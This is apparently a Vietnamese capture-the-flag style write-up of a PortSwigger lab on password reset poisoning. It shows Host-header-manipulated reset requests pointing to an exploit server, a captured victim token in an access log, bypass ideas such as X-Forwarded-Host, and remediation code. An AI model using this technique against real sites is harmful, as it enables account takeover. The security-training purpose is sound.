









## Thông tin bài Lab
* **Tên bài Lab**: Basic password reset poisoning
* **Chuyên đề**: HTTP Host Header attacks / Account Takeover
* **Mức độ**: Apprentice
* **Mục tiêu**: Khai thác Password Reset Poisoning để đánh cắp token đặt lại mật khẩu và chiếm quyền tài khoản `carlos`.

---

## 1. Kiến thức nền tảng

Chức năng đặt lại mật khẩu là một thành phần trọng yếu trong cơ chế quản lý danh tính của các ứng dụng web. Quy trình này đòi hỏi tính bảo mật tuyệt đối đối với token xác thực được gửi đến hộp thư của người dùng.

### 1.1. Quy trình xử lý yêu cầu đặt lại mật khẩu tiêu chuẩn

Một quy trình đặt lại mật khẩu thông thường bao gồm các bước:
- **Bước 1:** Người dùng gửi yêu cầu kèm theo tên đăng nhập hoặc địa chỉ email.
- **Bước 2:** Hệ thống kiểm tra sự tồn tại của tài khoản, sinh ra một chuỗi token ngẫu nhiên có độ entropy cao và lưu trữ vào cơ sở dữ liệu kèm thời hạn hết hạn.
- **Bước 3:** Máy chủ tạo đường dẫn chứa token và gửi nội dung này vào email của người dùng:

```text
https://example.com/forgot-password?temp-forgot-password-token=SECRET_TOKEN
```

- **Bước 4:** Người dùng truy cập đường dẫn, gửi token lên máy chủ để được cấp quyền thiết lập mật khẩu mới.

### 1.2. Sai lầm kiến trúc dẫn đến Password Reset Poisoning

Khi xây dựng đường dẫn gửi qua email, ứng dụng cần ghép tên miền của hệ thống vào trước đường dẫn tài nguyên. Thay vì sử dụng giá trị tên miền cố định được cấu hình trong biến môi trường máy chủ, lập trình viên lại đọc trực tiếp giá trị từ trường header Host của HTTP Request:

```java
// Mã nguồn xử lý sai lầm phổ biến
String resetUrl = "https://" + request.getHeader("Host") 
                + "/forgot-password?temp-forgot-password-token=" + token;
emailService.sendResetEmail(user.getEmail(), resetUrl);
```

Vì trường header Host hoàn toàn do client kiểm soát và có thể bị can thiệp bởi Burp Suite, việc tin tưởng trường này khiến ứng dụng vô tình tạo ra liên kết trỏ về máy chủ của kẻ tấn công.

---

## 2. Mô hình tấn công

### 2.1. Phân tích nguyên nhân và điều kiện phát sinh lỗ hổng

- **Tin tưởng ngầm định Input:** Ứng dụng coi header Host là dữ liệu đáng tin cậy để tạo các liên kết nhạy cảm gửi ra bên ngoài.
- **Thiếu danh sách tên miền hợp lệ:** Hạ tầng Web Server và Reverse Proxy không lọc hoặc từ chối các request chứa header Host lạ.
- **Hành vi tự động của người dùng:** Nạn nhân mở email và nhấp vào liên kết mà không kiểm tra kỹ tên miền đích.

### 2.2. Sơ đồ luồng dữ liệu tấn công

```text
[ Attacker ]
       │
       │  Gửi yêu cầu reset mật khẩu cho carlos:
       │  POST /forgot-password HTTP/2
       │  Host: exploit-server.net      <── Thay thế bằng domain của Attacker
       │  username=carlos
       ▼
[ Web Application Server ]
       │
       │  Sinh token bí mật hợp lệ: TOKEN_XYZ
       │  Ghép URL theo Host header:
       │  https://exploit-server.net/forgot-password?temp-forgot-password-token=TOKEN_XYZ
       │  Gửi email chứa liên kết trên vào hòm thư nạn nhân
       ▼
[ Hòm thư của Carlos ]
       │
       │  Carlos mở email và nhấp vào liên kết bị đầu độc
       ▼
[ Exploit Server của Attacker ]
       │
       │  Ghi nhận request vào Access Log:
       │  GET /forgot-password?temp-forgot-password-token=TOKEN_XYZ HTTP/1.1
       ▼
[ Attacker lấy Token ] ──► Đổi mật khẩu tài khoản Carlos ──► Chiếm đoạt tài khoản!
```

> [!NOTE]
> **Question 1: Tại sao dev lại không hardcode domain mà lại lấy từ Host header?**
> 
> **Answer 1:** Các dự án thực tế chạy trên nhiều môi trường như dev, staging, test, production hoặc kiến trúc Multi-tenant khi nhiều domain dùng chung một backend code. Lập trình viên thường ngại cấu hình biến môi trường `BASE_URL` riêng cho từng môi trường nên chọn giải pháp nhanh là đọc trực tiếp từ trường header `Host`, từ đó vô tình tạo ra lỗ hổng.
> 
> **Question 2: Nếu Web Server hoặc Reverse Proxy đứng trước chặn không cho đổi Host header thì sao?**
> 
> **Answer 2:** Nếu Reverse Proxy kiểm tra nghiêm ngặt header `Host`, attacker sẽ chuyển hướng sang các kỹ thuật bypass nâng cao hơn:
> - Sử dụng các header ghi đè của proxy như `X-Forwarded-Host`.
> - Kỹ thuật Duplicate Host headers.
> - Khai thác qua Forward Proxy hoặc SNI mismatch.

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm được triển khai tuần tự qua 5 giai đoạn:

### Giai đoạn 1: Khảo sát quy trình đặt lại mật khẩu với tài khoản thử nghiệm

Gửi request đặt lại mật khẩu cho tài khoản `wiener` qua Burp Suite Repeater:

```http
POST /forgot-password HTTP/2
Host: 0a6a00ba0450131880ef178600140009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=kMq9RVeUxfQpLCIPJRKOJzxygHorbIzN&username=wiener
```



Kiểm tra hộp thư của wiener trên Email Client, email chứa liên kết đặt lại mật khẩu hợp lệ:

```text
https://0a6a00ba0450131880ef178600140009.web-security-academy.net/forgot-password?temp-forgot-password-token=28fmtqhg74ekjf9g9ymp3iu9vxckmlck
```



Truy cập liên kết để kiểm tra biểu mẫu thiết lập mật khẩu mới của ứng dụng:



---

### Giai đoạn 2: Kiểm chứng tính phản xạ của Host header

Để chứng minh ứng dụng lấy giá trị tên miền động từ request, tiến hành gửi lại request với trường `Host: tu4nki3t`:

```http
POST /forgot-password HTTP/2
Host: tu4nki3t
Content-Type: application/x-www-form-urlencoded

csrf=kMq9RVeUxfQpLCIPJRKOJzxygHorbIzN&username=wiener
```

Máy chủ phản hồi `HTTP/2 200 OK`. Tiếp tục kiểm tra hòm thư của wiener:



Liên kết trong email đã bị thay đổi tên miền hoàn toàn theo giá trị đã can thiệp:

```text
https://tu4nki3t/forgot-password?temp-forgot-password-token=nyv1624q9a50bpqbqyjpsauw980557co
```



---

### Giai đoạn 3: Tấn công đầu độc liên kết nhắm vào nạn nhân carlos

Xác định tên miền Exploit Server do bài lab cung cấp: `exploit-0a20004004e5131580c9162c01ff00ac.exploit-server.net`. Soạn request gửi yêu cầu đặt lại mật khẩu cho `username=carlos` với header Host trỏ về Exploit Server:

```http
POST /forgot-password HTTP/2
Host: exploit-0a20004004e5131580c9162c01ff00ac.exploit-server.net
Content-Type: application/x-www-form-urlencoded

csrf=kMq9RVeUxfQpLCIPJRKOJzxygHorbIzN&username=carlos
```

Máy chủ xử lý thành công và gửi email chứa liên kết trỏ về Exploit Server vào hòm thư của carlos.



---

### Giai đoạn 4: Thu thập Token từ Access Log của Exploit Server

Nạn nhân carlos mở email và nhấp vào liên kết. Trình duyệt của nạn nhân gửi request trực tiếp đến Exploit Server. Kiểm tra mục **Access log**, ghi nhận bản ghi trích xuất token thành công:

```text
10.0.4.19 2026-09-14 07:49:40 +0000 "GET /forgot-password?temp-forgot-password-token=pgus7rprrupslmrlyrxkzmbc3bxo2qj8 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim)..."
```

Token thu được: `pgus7rprrupslmrlyrxkzmbc3bxo2qj8`



---

### Giai đoạn 5: Đặt lại mật khẩu và chiếm quyền tài khoản carlos

Sử dụng tên miền chính thống của bài lab kết hợp với token vừa thu thập để truy cập trang đặt lại mật khẩu:

```text
https://0a6a00ba0450131880ef178600140009.web-security-academy.net/forgot-password?temp-forgot-password-token=pgus7rprrupslmrlyrxkzmbc3bxo2qj8
```

Thiết lập mật khẩu mới cho tài khoản carlos:



Đăng nhập thành công với tài khoản carlos và mật khẩu vừa đặt. Bài lab được giải quyết hoàn tất.



---

## 4. Biện pháp khắc phục

### 4.1. Khắc phục tại tầng Ứng dụng

- **Sử dụng tên miền cấu hình tĩnh:** Tuyệt đối không lấy giá trị tên miền từ trường header Host hay bất kỳ thông tin nào do client gửi lên để sinh liên kết gửi qua email. Tên miền phải được lấy từ biến môi trường cố định của hệ thống:

```java
// Cấu hình an toàn sử dụng biến môi trường tĩnh
String baseUrl = System.getenv("APP_BASE_URL"); // https://example.com
String resetUrl = baseUrl + "/forgot-password?temp-forgot-password-token=" + token;
```

- **Giới hạn thời gian hiệu lực và số lần sử dụng:** Token đặt lại mật khẩu phải có thời gian sống ngắn và bị hủy bỏ ngay lập tức sau lần sử dụng đầu tiên.

### 4.2. Cấu hình bảo vệ tại Web Server và Reverse Proxy

- **Xác thực tên miền tại Reverse Proxy:** Cấu hình Nginx, Apache hoặc API Gateway kiểm tra trường header Host và từ chối các yêu cầu có tên miền không nằm trong danh sách cho phép trước khi chuyển tiếp vào ứng dụng nội bộ.
- **Thiết lập Virtual Host mặc định:** Cấu hình server block mặc định để đóng kết nối đối với các request không xác định tên miền đích:

```nginx
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    return 444;
}
```
